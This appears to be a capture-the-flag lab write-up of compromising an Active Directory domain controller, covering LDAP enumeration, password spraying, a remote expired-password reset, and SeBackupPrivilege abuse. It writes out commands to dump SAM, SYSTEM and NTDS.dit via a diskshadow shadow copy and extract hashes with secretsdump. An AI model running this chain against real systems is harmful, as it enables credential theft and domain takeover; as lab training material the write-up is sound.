## 1. Reconnaissance

### 1.1 Nmap

An Nmap scan identified a Domain Controller, confirming the target as an Active Directory environment.



### 1.2 SMB, RPC & LDAP

Anonymous SMB and RPC access were both denied.




LDAP, however, allowed anonymous binds, and a list of domain usernames was enumerated.



A full LDAP dump was pulled and reviewed. One user object stood out, with a default password mentioned directly in its `description` field:



---

## 2. Credential Discovery

### 2.1 Validating the Leaked Password

The leaked password did not work against the user it was tied to. 



ASREP-roasting against the enumerated user list also returned nothing.



Running `kerbrute` against the same list of users confirmed that only one of them was actually valid.



### 2.2 Further LDAP Enumeration

Going deeper into LDAP enumeration, filtering the full LDAP dump (rather than relying on the default user search) revealed two additional accounts that weren't present in the original results. 

```bash
ldapsearch -x -b "dc=baby, dc=vl" "*" -H ldap://BabyDC.baby.vl | grep dn
ldapsearch -x -b "dc=baby, dc=vl" "*" -H ldap://BabyDC.baby.vl | grep dn | grep -v CN=Users
```

Spraying the leaked default password across the expanded user list returned an interesting result: one account came back with `STATUS_PASSWORD_MUST_CHANGE` rather than a logon failure.



Re-running `kerbrute` against the expanded user list confirmed three valid usernames.



Bruteforcing the leaked password against just the new valid usernames confirmed a valid login for **Caroline.Robinson**, flagged as expired.



---

## 3. Initial Access

### 3.1 Resetting the Expired Password

To reset the password, Google told us to attempt logging in and the machine would prompt us for a new password. However, RDP access was not available for this user.



Instead, we can use `smbpasswd` to reset it remotely.

```bash
smbpasswd -r 10.129.234.71 -U Caroline.Robinson
```

With the password reset, authentication succeeded, and enumerated share permissions showed read/write access to `C$`.




### 3.2 Shell Access

WinRM access was also available with the new credentials, providing an authenticated shell and the user flag.



---

## 4. Privilege Escalation

### 4.1 SeBackupPrivilege

Privilege enumeration on the session revealed that the current user held `SeBackupPrivilege`.



### 4.2 Harvesting SAM & SYSTEM Hives

The privilege was used to back up the SAM and SYSTEM registry hives:

```powershell
mkdir C:\temp
reg save hklm\sam C:\temp\sam.hive
reg save hklm\system C:\temp\system.hive
cd \temp
download sam.hive
download system.hive
```

The hives were processed locally with `secretsdump`, recovering local NTLM hashes:

```bash
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```



The recovered local Administrator hash did not work for authentication, indicating that domain-level credentials would be needed instead.

### 4.3 Dumping NTDS.dit

The domain credentials are found in NTDS.dit, which we have access to with our `SeBackupPrivilege`. However, the file is locked because its currently in use. So we can make a volume shadow copy with `diskshadow`.

First, we write this script and upload it to the machine.

```powershell
set verbose on
set metadata C:\Windows\Temp\test.cab
set context persistent
add volume C: alias cdrive
create
expose %cdrive% E:
```

Then we run it with this command `diskshadow /s ./backup.txt`.

Now there is a full copy of the C: drive, but its accessible through the E: drive. So we'll copy the NTDS.dit file to our current directory with `robocopy`.

```powershell
robocopy /b E:\Windows\ntds . ntds.dit
```

Then download it to our machine and run `secretsdump` on the file.

```powershell
impacket-secretsdump -system system -ntds ntds.dit LOCAL
```




### 4.4 Root

The recovered domain Administrator hash was used to authenticate via `evil-winrm`, providing a full administrative shell.



---

## 5. Summary

| Stage | Technique |
|---|---|
| Recon | Nmap identified a Windows Domain Controller |
| Enumeration | Anonymous LDAP exposed a default password set in a user's `description` field, plus hidden accounts via deeper LDAP filtering |
| Credential Validation | `kerbrute` and targeted password spraying identified a valid, expired account (`Caroline.Robinson`) |
| Initial Access | `smbpasswd` used to reset the expired password remotely → SMB/WinRM access as `Caroline.Robinson` |
| Privilege Escalation | `SeBackupPrivilege` abused to dump SAM/SYSTEM and, ultimately, `NTDS.dit` via a shadow copy → domain Administrator hash → `evil-winrm` |

### Key Takeaways
- Storing passwords in LDAP-readable fields such as `description` is a common and easily discoverable misconfiguration in Active Directory environments.
- Default LDAP search filters can miss accounts; broader, unfiltered LDAP queries can reveal users that standard enumeration tools overlook.
- Expired account passwords are not a dead end — tools like `smbpasswd` can reset them remotely without needing RDP or a full interactive session.
- `SeBackupPrivilege` (on the domain controller) is effectively equivalent to a path to domain compromise, since it allows reading the NTDS.dit database via volume shadow copies regardless of file permissions.
